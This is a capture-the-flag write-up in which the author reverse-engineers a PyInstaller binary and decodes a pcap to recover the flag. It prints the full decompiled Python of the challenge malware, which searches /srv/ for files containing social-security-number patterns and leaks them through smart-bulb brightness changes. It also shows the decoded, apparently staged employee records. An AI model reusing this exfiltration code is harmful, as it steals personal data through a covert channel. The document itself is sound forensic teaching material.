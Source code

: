 # Smart Exfil

This was a challenge that was part of the [UND CyberHawks National CTF Competition](https://blogs.und.edu/cem/2024/07/registration-now-open-und-cyberhawks-national-capture-the-flag-ctf-competition/), which was hosted through the [MetaCTF](https://app.metactf.com/) platform, and frankly had a really long title for a mid CTF. My friend and I showed up and played as a team of 2 in a 4-person-team competition and we did pretty well actually! We got 2nd in the pre-qualifiers and 5th in the finals (the finals was much more time constrained, qualifiers was over the course of a whole week and we just got to challenges pretty quick). All in all, a good time and not too hard of challenges. This is the only one I thought was worth writing up about.

### Description

I don't remember, it's been a while lol.

- [logs.pcap](./logs.pcap)
- [nothing_to_see_here](./nothing_to_see_here)

### Solve

This challenge used a lot of tooling I had never seen before and had a really neat solution, so I decided to do a writeup about it. Opening the pcap reveals a *lot* of network traffic that looks normal.

Starting off running strings on the binary, we get a lot of strings noting that Python had something to do with this:
```
Failed to execute script '%s' due to unhandled exception!
_MEIPASS2
_PYI_ONEDIR_MODE
_PYI_PROCNAME
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
Cannot side-load external archive %s (code %d)!
LOADER: failed to set linux process name!
/proc/self/exe
ld-%64[^.].so.%d
Py_DontWriteBytecodeFlag
Py_FileSystemDefaultEncoding
Py_FrozenFlag
Py_IgnoreEnvironmentFlag
Py_NoSiteFlag
Py_NoUserSiteDirectory
Py_OptimizeFlag
bpydantic/json.cpython-310-x86_64-linux-gnu.so
xpython_kasa-0.5.3.dist-info/LICENSE
```

One such string is `PYINSTALLER_STRICT_UNPACK_MODE` (or other strings denoting that the binary used pyinstaller). Pyinstaller is essentially a packer that packs python files into a binary to be run on a system. This means that there was originally a Python file that made this file... is there a good way to get that out? Luckily, some kind soul on the internet did the hard work of setting up an extractor for us. The tool is called [`pyinstxtractor.py`](https://github.com/extremecoders-re/pyinstxtractor) and it's a single python file that can extract the `.pyc` file(s) from a binary. You run it using:

```sh
╰─ ❯❯ python pyinstxtractor.py nothing_to_see_here
[+] Processing nothing_to_see_here
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 10099053 bytes
[+] Found 77 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: smart_exfil.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: nothing_to_see_here

You can now use a python decompiler on the pyc files within the extracted directory
```

It outputs a lot of files in an extracted directory (`nothing_to_see_here_extracted`), and inside those there are a lot of python files that are necessary at runtime and one more that is custom, as indicated by the output: `smart_exfil.pyc`. Now that we have a pyc file, we can get the original Python using an online too. My personal tool of choice is [PyLingual](https://pylingual.io), since they support more recent Python versions than just about anything else. Throwing the pyc into there outputs us a usable Python file that we can use to determine what that pcap contains!

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: smart_exfil.py
# Bytecode version: 3.10.0rc2 (3439)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import re
import zlib
import kasa
import asyncio
import time
import subprocess
to_send = b''

def pack(item, message):
    return b'--' + item.encode('utf8') + b'--' + zlib.compress(message.encode('utf8'))
to_send += pack('uname', subprocess.run(['uname', '-a'], stdout=subprocess.PIPE, text=True).stdout)
for root, _, files in os.walk('/srv/'):
    for filename in files:
        if filename.endswith(('.txt', '.csv', '.sql')):
            p = os.path.join(root, filename)
            with open(p, 'r', encoding='utf8') as f:
                content = f.read()
                if re.search('\\b\\d{3}-\\d{2}-\\d{4}\\b', content):
                    to_send += pack(filename, content)

async def exfil(data):
    devices = await kasa.Discover.discover()
    bulb = None
    for addr, d in devices.items():
        await d.update()
        if d.device_type == kasa.DeviceType.Bulb:
            bulb = d
            break
    await bulb.update()
    await bulb.turn_on()
    i = 0
    for byte in data:
        if i % 10 == 0:
            print(str(i) + '/' + str(len(data)), round(100.0 * i / len(data), 1))
        i += 1
        c = 0
        for bit in format(byte, '08b'):
            time.sleep(0.05)
            await bulb.set_hsv(45 * c, 100, 100 if bit == '1' else 0)
            c += 1
s = time.time()
asyncio.run(exfil(to_send))
print(time.time() - s)
```

This is a neat script! It uses a special smart light Python library to find a light on the network and then turn it on and off for each bit in the binary data that it packs from the system. This means that if we can find this data in the pcap, we can turn it back into binary and get the files from the system, which probably contain the flag! Wireshark is actually nice enough to translate that data for us in the GUI application:

![Wireshark output](image.png)

It appears `bulb.set_hsv(45 * c, 100, 100 if bit == '1' else 0)` is working, and the brightness is being set high for 1's and low for 0's, so we can use that to extract the original data! We can apply a quick filter (`((ip.dst == 10.10.12.20) && (ip.src == 10.10.12.21)) && (_ws.col.protocol == "TPLINK-SMARTHOME/JSON")`), ctrl+a, copy paste that into a blank file, do some find replace magic to just get the brightness values, one more find and replace to get a comma separated list of 0's and 1's, and it's ready to go into Python. A really quick script is enough to get us the basic data we need:

```python
>>> arr = "<list of 0's and 1's>"
>>> arr2 = ''.join([str(i) for i in arr])
>>> from Crypto.Util.number import long_to_bytes
>>> long_to_bytes(int(arr2, 2))
b'--uname--x\x9c\xf3\xc9\xcc+\xadP\xc8M-IL\xca\xafP0\xd33\xd23\xd056\xd2MO\xcdK-\xcaLVP66\xaa3\x02\x8a\x99\xe8\x19\xea\x86&\x95\xe6\x95\x94*\x04\xfb\x06(\x04\x04\xb9\xba\xfa\x06\x84\xc4\xbbD\xfa9\xfaz:+\xb8\x15e*8\x96\xa6+\x18Z(\x18\x1aX\x99\x18X\x19\x1a+\x84\x868+\x18)TX\x98\xc5\x9b\x99\xa0Q\xee~\xa1\xfa> \x8b\xb9\x00=\x93#\x8f--employee_export.csv--x\x9cU\x91\xcdn\xdb0\x10\x84\xefy\n\xc2\x97^\x96\x82H\xfd\x90\xbc\xd9uc\xa0\xad\xdd\x02\x89\x81\x16\xbd\x08+\x99\x95\x98P\xa4A\xc9p\xed\xa2\xef^J\xb9D7\x0e\x07\xd8ov\x96\xa7\xa9(\x05<\xf6=\xc2\x01\xc3h\x9c\xbe\x83\x8e*\xe9\xd7\x9d\xfe\x83\xd6\x8c:1\x1e\x86\x8b\x1b\xbahN\x96T\xeb\x1bv\xde\'\x8d\xef\x81)IeN\xcb,\x17\xb0b<#\x07<[M\x9eG \xcf\xe7`\\\xfb\xdbh{\x02\xf2yOJ.\xd2|\x05\x0fE\xc9Ydn\x82A\xf8\xfe\xe1I\x1bko\x80Q%~\xc1|\xfb\n\xb3\x9f\xf3u\xdb\xa3\xb133\xe7)\x15%\x8ds"S\x95\x19y\xd2\xa7\xab\xf7\'\xb2w\x91\x8a\x8e\xec\x02\xba\xc6\x0c\x8d\x07\xb2\xdd\x10\x95\xb34[\xc1A\x8f\xb8=\xee\xfe\xd6\xc1\xb4\xddX\xd5\xd6\xb8\xd7\x98\xaf\xaa/\xb6\xae\xea\xa0\xb1\xe9\xf4\xf0\xefA\xb0B\xe6\x1c\xbe`\xf3:x\x07\x1f\x83\xbf:xySI\xbd\x08\xf8ROf\x8b\xbd\x0e\xef\x1a)2F\xa5\xa2\xb2,$\xac\xa4\xc8\xc9\x0f\xb4\xee2\x92\xad\t@>\xa1\xb58\x009\xfe$\xa2\xe0)\x8bu\xc8B\xb1L\xc2\xb6\xb3^\xc3/\xd3\xc7i=:h&\x9d\xdc\x17\xc0\xe6^M7\x1aF\xd3,\xea\xc8\xa8R4\x06\x8fupV(r\xd0x\xf2\xd7\xb9\x8e#\xf6g\x04\xb2\xdb\x93,+S\x1eyJ*\xc98<\x8e]\xa4|k/7\xed@O"q\x0b\x98\x9b\xadj\xb6\xa4|\xbf\xa0,\xa9\x90\x94\t\x91G^\x91K\xb2\xf58\x8ch\xe7\xabo\\\xd3\xf9\x80\xad\x8e\xcf\xafD\xa9b^\xf2?]\xa8\xc2r'
```

But... that's not what I wanted to see? This actually took me a couple minutes, but the data in the `pack()` function in that python code is zlib compressed. So let's decompress it. `uname` we can ignore since that's the output of `uname -a`, but the `employee_export.csv` seems promising.
```python
>>> import zlib
>>> message = b'x\x9cU\x91\xcdn\xdb0\x10\x84\xefy\n\xc2\x97^\x96\x82H\xfd\x90\xbc\xd9uc\xa0\xad\xdd\x02\x89\x81\x16\xbd\x08+\x99\x95\x98P\xa4A\xc9p\xed\xa2\xef^J\xb9D7\x0e\x07\xd8ov\x96\xa7\xa9(\x05<\xf6=\xc2\x01\xc3h\x9c\xbe\x83\x8e*\xe9\xd7\x9d\xfe\x83\xd6\x8c:1\x1\
e\x86\x8b\x1b\xbahN\x96T\xeb\x1bv\xde\'\x8d\xef\x81)IeN\xcb,\x17\xb0b<#\x07<[M\x9eG \xcf\xe7`\\\xfb\xdbh{\x02\xf2yOJ.\xd2|\x05\x0fE\xc9Ydn\x82A\xf8\xfe\xe1I\x1bko\x80Q%~\xc1|\xfb\n\xb3\x9f\xf3u\xdb\xa3\xb133\xe7)\x15%\x8ds"S\x95\x19y\xd2\xa7\xab\xf7\'\xb2w\x91\x8a\x8\
e\xec\x02\xba\xc6\x0c\x8d\x07\xb2\xdd\x10\x95\xb34[\xc1A\x8f\xb8=\xee\xfe\xd6\xc1\xb4\xddX\xd5\xd6\xb8\xd7\x98\xaf\xaa/\xb6\xae\xea\xa0\xb1\xe9\xf4\xf0\xefA\xb0B\xe6\x1c\xbe`\xf3:x\x07\x1f\x83\xbf:xySI\xbd\x08\xf8ROf\x8b\xbd\x0e\xef\x1a)2F\xa5\xa2\xb2,$\xac\xa4\xc8\x\
c9\x0f\xb4\xee2\x92\xad\t@>\xa1\xb58\x009\xfe$\xa2\xe0)\x8bu\xc8B\xb1L\xc2\xb6\xb3^\xc3/\xd3\xc7i=:h&\x9d\xdc\x17\xc0\xe6^M7\x1aF\xd3,\xea\xc8\xa8R4\x06\x8fupV(r\xd0x\xf2\xd7\xb9\x8e#\xf6g\x04\xb2\xdb\x93,+S\x1eyJ*\xc98<\x8e]\xa4|k/7\xed@O"q\x0b\x98\x9b\xadj\xb6\xa4|\
\xbf\xa0,\xa9\x90\x94\t\x91G^\x91K\xb2\xf58\x8ch\xe7\xabo\\\xd3\xf9\x80\xad\x8e\xcf\xafD\xa9b^\xf2?]\xa8\xc2r'
>>> zlib.decompress(message)
b'200767,Emma,Martinez,emma.m@hexalite.io,sunshineemma89@yahoo.com,198-84-6347,"123 Maple St, Springfield, IL 62704",\n562167,Aria,O\'Reilly,aria.o@hexalite.io,aria.oreilly42@gmail.com,420-76-5627,"963 Redwood Ln, San Francisco, CA 94103",MetaCTF{bright_blinking_bulb_breaches}\n715842,Jackson,Brown,jackson.b@hexalite.io,jbrowngamer@yahoo.com,531-89-8658,"874 Walnut Cir, Dallas, TX 75201",\n859138,Chloe,Zimmerman,chloe.z@hexalite.io,cz_artistic@gmail.com,423-99-7157,"2159 Meadow Ln, Tampa, FL 33602",\n989812,Ethan,Nguyen,ethan.n@hexalite.io,nguyen_ethan88@yahoo.com,586-78-1774,"2548 Coastal St, Anchorage, AK 99501",\n'
```

And that's the flag! I was actually the only solve on this challenge, which felt really nice, too. All in all, a neat combination of reverse engineering and network forensics :)

Flag: `MetaCTF{bright_blinking_bulb_breaches}`